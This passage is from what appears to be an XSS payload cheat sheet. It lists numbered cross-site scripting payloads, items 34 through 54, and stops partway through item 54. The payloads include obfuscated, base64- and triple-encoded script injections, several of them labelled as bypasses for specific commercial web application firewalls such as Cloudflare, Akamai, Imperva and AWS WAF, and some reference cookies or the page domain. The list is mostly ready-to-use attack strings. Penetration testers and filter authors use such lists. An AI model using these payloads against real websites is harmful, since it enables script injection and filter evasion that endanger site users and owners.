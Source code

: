```html
📌 34. Attribute Context with Eval and Base64
<div onmouseover=eval(atob('YWxlcnQoJ1hTUyBieSBHcm9rJyk='))>Hover me</div>

📌 35. JavaScript Context with Self-Executing Function
(function(){alert('XSS by Ghost')})()

📌 36. URL Context with Encoded JavaScript URI
<a href="javas%63ript:alert('XSS by Ghost')">Click me</a> 

📌 37. HTML Context with Details Tag
<details open ontoggle="alert('XSS by Ghost')">Click me</details>

📌 38. Attribute Context with Double Obfuscation
<img src=x on\x65rror=eval("\x61\x6c\x65\x72\x74('XSS by Ghost')")>

📌 39. JavaScript Context with Array Join
['al','ert'].join('')('XSS by Ghost')

📌 40. WAF Bypass with Triple Encoding
<img src=x onerror=eval(unescape(decodeURI('%2561%256c%2565%2572%2574%2528%2527XSS%2520by%2520Ghost%2527%2529')))>

📌 41. Reflected XSS WAF Bypass (Imperva)
%22%22%3E%3Cscript%3Ealert(document.domain)%3C/script%3E

📌 42. Reflected XSS WAF Bypass (Cloudflare - SVG)
onxss=><svg/ONLoad=alert(cookie)+x

📌 43. Reflected XSS WAF Bypass (Cloudflare - Details Tag)
ONxss=><details open ontoggle=prompt(document.domain)+x

📌 44. Reflected XSS WAF Bypass (Akamai)
%3Ch1%3EHELLO%3Ca%20href=%22Ja%26Tab;vascript%26colon;console.error(origin)%22%3ECLICK ME%3C/a%3E%3C%2FH1%3E

📌 45. Reflected XSS WAF Bypass (F5 BIG-IP)
<img src=x o%6Ee%72ror="a%6Cert('XSS by Ghost')">

📌 46. Reflected XSS WAF Bypass (Fortinet)
<svg/onload=al%65rt('XSS by Ghost')>

📌 47. Reflected XSS WAF Bypass (AWS WAF)
<div onmouseover=eval("\x61\x6c\x65\x72\x74('XSS by Ghost')")>Hover me</div>

📌 48. Reflected XSS WAF Bypass (Sucuri)
<img src=x onerror=al%65rt(String.fromCharCode(88,83,83,32,98,121,32,71,114,111,107))>

📌 49. Reflected XSS WAF Bypass (Incapsula)
<a href="jav%61script:al%65rt('XSS by Ghost')">Click me</a>

📌 50. Reflected XSS WAF Bypass (Barracuda)
<iframe srcdoc="<script>al%65rt('XSS by Ghost')</script>"></iframe>

📌 51. HTML Context with Audio Tag
<audio src=x onerror="alert('XSS by Ghost')"></audio>

📌 52. Attribute Context with Encoded Whitespace
<img src=x on\x09error="alert('XSS by Ghost')">

📌 53. JavaScript Context with Template Literals
window[al${'ert'}]('XSS by Ghost')

📌 54. URL Context with Encoded Data URI
```